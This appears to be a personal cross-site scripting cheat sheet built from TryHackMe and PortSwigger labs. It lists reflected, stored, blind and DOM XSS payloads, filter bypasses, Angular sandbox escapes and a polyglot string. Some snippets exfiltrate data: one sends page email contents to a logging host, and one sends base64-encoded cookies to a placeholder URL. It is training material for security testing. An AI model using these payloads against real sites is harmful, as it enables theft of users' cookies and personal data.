 # Cross-site Scripting

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

http://www.xss-payloads.com/










## Reflected XSS
The server-side application processes data from a request and echoes the data in the response. 

User-supplied data in an HTTP request is included in the webpage source without any validation.
The JavaScript is executed because it is in the HTTP response

Only affects the person making the web request.


`<script>alert(window.location.hostname)</script>`
`<script>alert(“Hello World”)</script>`
`</textarea><script>alert('THM');</script>`


```
// from "https://tryhackme.com/r/room/thatstheticket"
</textarea>
<script>
var i = new Image(); i.src="//TEST.1ba665d99ad23c9ad4b5a119f3a86aef.log.tryhackme.tech/?c="+document.getElementById('email').innerHTML;
</script>

</textarea>
<script>
var email = (document.getElementById('email').innerHTML).replace("@","-at-");
var my_address = "1ba665d99ad23c9ad4b5a119f3a86aef.log.tryhackme.tech";
var request = new XMLHttpRequest();
request.open("GET","http://" + email + "-musyoka-" + my_address, false); // with second parameter as 'true'(async) also works
request.send();
</script>
```



`<script>alert(document.cookies)</script>`
`<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>`

`/images/cat.jpg" onload="alert('THM');`

`"onmouseover="alert(1)` Example:
<input type="text" placeholder="Search the blog..." name="search"
value="[PAYLOAD HERE]">





### Reflected XSS into HTML context with all tags blocked except custom ones
Payload: `<custom-tag id=x onfocus=alert(document.cookie) tabindex=1>#x`

```
<script>
location = 'https://0af9006b0401a5dc827b5bd100ca00a8.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```









### Avoid Filters
`<sscriptcript>alert('THM');</sscriptcript>`


Search:
`\"-alert(1)}//`












## Stored XSS
Is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

Example: post comments stored in a database.

### Blind XSS
Is similar to a stored XSS (which we covered in task 4) in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.


Tool: <https://github.com/mandatoryprogrammer/xsshunter-express>


Examples:
`</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`



anchor href attribute
<a href="javascript:alert(1)">








## DOM-based XSS
When JavaScript takes data from an attacker-controllable source, such as the URL, and passes it to a sink that supports dynamic code execution, such as `eval()` or `innerHTML`.

The most common source for DOM XSS is the URL, which is typically accessed with the `window.location` object.

The "sinks" manipulate the DOM, and then the DOM causes the JavaScript to execute.

- document.write
`"><svg onload=alert(1)>`
`fooBar" onload="alert(1)`

- innerHTML sink using source location.search
`<img src=1 onerror=alert(1)>`
`<><img src=1 onerror=alert(1)>` Example: to bypass `.replace()` method
`<img src='0' onerror=alert(1)>`





## PHP

### Form
this url
```
http://www.example.com/test_form.php/%22%3E%3Cscript%3Ealert('hacked')%3C/script%3E

#or

http://www.example.com/test_form.php/<script>location.href('http://www.hacked.com')</script>
```
translated to:
```
<form method="post" action="test_form.php/"><script>alert('hacked')</script>
```




### DOM XSS in jQuery anchor href attribute sink using `location.search`
```
<a id="backLink" href="/">Back</a>
<script>
	$(function() {
		$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
	});
</script>
```

original: https://example.path/feedback?returnPath=/
modified: https://example.path/feedback?returnPath=javascript:alert(document.cookie)



### escape javaScript
`';alert('THM');//`



### Angular
`{{$on.constructor('alert(1)')()}}`
`{{$eval.constructor('alert(1)')()}}`
`{{$resume.constructor('alert(1)')()}}`
- The constructor data property of an Object instance returns a reference to the constructor function that created the instance object. <https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor>

Explanation:
`Function('console.log("Hello World")')(); // anonymous function made using the Function constructor`

```
function test() {
	console.log('Hello World');
}

console.log(test.constructor); // returns "Hello World"

let mySecondFunction = test.constructor('console.log("Hello World 2!")');
mySecondFunction(); // returns "Hello World 2!"
```


















## Polyglots
An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.


jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
